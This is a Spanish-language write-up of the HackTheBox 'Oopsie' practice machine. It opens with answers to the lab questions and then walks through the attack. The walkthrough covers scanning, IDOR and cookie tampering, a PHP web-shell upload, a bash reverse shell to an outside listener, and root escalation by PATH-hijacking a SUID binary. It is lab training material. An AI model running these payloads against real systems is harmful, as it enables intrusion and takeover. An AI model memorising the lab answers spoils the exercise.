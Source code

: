 1)¿Con qué tipo de herramienta se puede interceptar el tráfico web?
	proxy

2)¿Cuál es la ruta al directorio en el servidor web que devuelve una página de inicio de sesión?
	/cdn-cgi/login
	Esto se respondio con el sitemap de caido y enumeracion de directorios con [[Gobuster]]

3)¿Qué se puede modificar en Firefox para acceder a la página de carga?
	cookie
	Esto por que en la pagina de uploads dice que tenemos que ser administrador, y eso se define en nuestro navegador por las cookies

4)¿Cuál es el ID de acceso del usuario admin?
	34322
	Esta respondido antes del cookie hijacking

5)Al cargar un archivo, ¿en qué directorio aparece ese archivo en el servidor?
	/uploads
	![[Oopsie11.png]]

6)¿Cuál es el archivo que contiene la contraseña que se comparte con el usuario robert?
	db.php
	Esto esta en la parte de escalada al usuario robert

7)¿Qué ejecutable se ejecuta con la opción «-group bugtracker» para identificar todos los archivos propiedad del grupo bugtracker?
	find

8)Independientemente del usuario que inicie la ejecución del ejecutable bugtracker, ¿qué privilegios de usuario utilizará para ejecutarlo?
	root

9)¿Qué significa SUID?
	set owner user id

10)¿Cuál es el nombre del ejecutable al que se llama de forma insegura?
	cat
	![[Oopsie21.png]]
Lo del cat lo pense de aca, que tira el error al no encontrar el archivo




-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.207.226
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.129.207.226 -oG allPorts
extractPorts allPorts
nmap -sCV -p22,80 10.129.207.226 -oN target
```

![[Oopsie1.png]]

![[Oopsie2.png]]
Por el ttl cercano a 64 es una maquina linux
*Puertos*
`22` SSH
`80`HTTP apache


----
# [[Enumeracion con pequeño script de NMAP y Whatweb-wappalyzer]]

![[Oopsie3.png]]

No nos da ningun dato relevante

------
# Vamos a interceptar con [[Caido (falta terminar)]]

Aceptamos la primera peticion de la pagina, para que pase todo el trafico asi se genera un sitemap

![[Oopsie5.png]]
Ahora tenemos una carpeta que se llama cdn-cgi
Con [[Gobuster]] `gobuster dir -u http://10.129.207.226/cdn-cgi/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt --add-slash -t 50` vamos a buscar posibles directorios y nos da que existe el directorio login

![[Oopsie4.png]]

--------
# Ingreso al panel de login

http://10.129.207.226/cdn-cgi/login/

![[Oopsie6.png]]
Entramos con ``login as a guest``

Ahora vamos a account
![[Oopsie7.png]]

Y vemos que somos el usuario id 2, normalmente el usuario admin es el id 1 por que es el primero en crearse
![[Oopsie8.png]]

Cambiamos el link a `http://10.129.207.226/cdn-cgi/login/admin.php?content=accounts&id=1`

![[Oopsie9.png]]
Y vemos el id del usuario admin, ahora vamos a cambiar los valores de la cookie para robarnos las credenciales

------
# Cookie Hijacking

Con el user id 34322 y el name de admin, que sacamos antes, vamos a apretar en el navegador CTRL + SHIFT + I
Se nos va a abrir esto y vamos a cambiar el valor role `guest` a `admin` y el valor de user `2233` a `34322`

![[Oopsie10.png]]
Reiniciamos y la pagina, y ya estamos como el usuario admin

---------
# Arbitrary file upload

![[Oopsie12.png]]

Desde la parte de uploads, vamos a cargar un [[archivo php inyección comandos]]

`test.php`
```
<?php system($_GET["cmd"]); ?>
```
Lo subimos con este contenido, en uno de nuestros primeros intentos de enumerar, habiamos visto que existe el directorio uploads
![[Oopsie11.png]]

Entonces desde el directorio uploads vamos a intentar inyectar comandos con la utilidad que subimos
http://10.129.207.226/uploads/test.php?cmd=whoami
![[Oopsie13.png]]
Nos responde www-data asi que funciona correctamente

------
# [[Reverse shell]]

Con el archivo que subimos antes, vamos a ejecutar la revershell
http://10.129.207.226/uploads/test.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.16.16/443 0>%261'

![[Oopsie14.png]]
Mientras estamos en escucha con [[nc -nlvp 443]]

![[Oopsie16.png]]
Ya estamos dentro de la maquina, ahora hacemos un [[Tratamiento de la TTY]]


-----------
# Escalada de al usuario robert

Dentro de la carpeta /var/www/html/cdn-cgi ssamos el comando grep -riE "connect|.*connect|connect.*"   para buscar posibles contraseñas 


![[Oopsie20.png]]

Da como resultado ``M3g4C0rpUs3r!``
![[Oopsie19.png]]

------
# Escala a root mediante binario del grupo bugtracker

Vemos con [[id]] que estamos en el grupo bugtracker
Usamos el  comando [[find]] ``find / -group bugtraker 2>/dev/null`` para buscar archivos que pueda ejecutar por estar en este grupo

![[Oopsie23.png]]
Y tenemos que podemos usar el binario */usr/bin/bugtracker*
Al listar los permisos que tiene con [[ls]] `ls -l` vemos que es [[SUID]] y el usuario es root. 
![[Oopsie25.png]]

Al ejecutarlo me pide un id de bug, ponemos prueba y vamos que lo que esta haciendo el binario es un cat

![[Oopsie24.png]]
Entonces sacamos la conclusion de que estamos ejecutando el [[cat]] como si fueramos root

--------
# [[Path Hijacking]] al comando cat

Agregamos en el PATH el directorio /tmp. y en ese directorio creamos el archivo cat con el contenido `/bin/bash` para que cuando lo ejecutemos nos abra una bash. Le damos permisos de ejecucion con [[chmod]] `chmod +x cat` . Y ejecutamos el binario, ponemos cualquier id de bug. Y ya se nos abre la bash con privilegios de root, y podemos catear la flag

```shell
export PATH=/tmp:$PATH          /Agrega al principio del PATH el directorio tmp
echo "/bin/bash" > cat          /Crea el archivo cat, con el contenido /bin/bash
chmod +x cat                    /Da permisos de ejecucion al comando cat
/usr/bin/bugtracker             /Ejecuta el binario
```

![[Oopsie27.png]]
![[Oopsie28.png]]

-------
# Notas

Para el sitemap si usamos caido, no nos va a detectar el directorio login, pero con burpsuite

------
# Creditos
Writeup oficial HackTheBox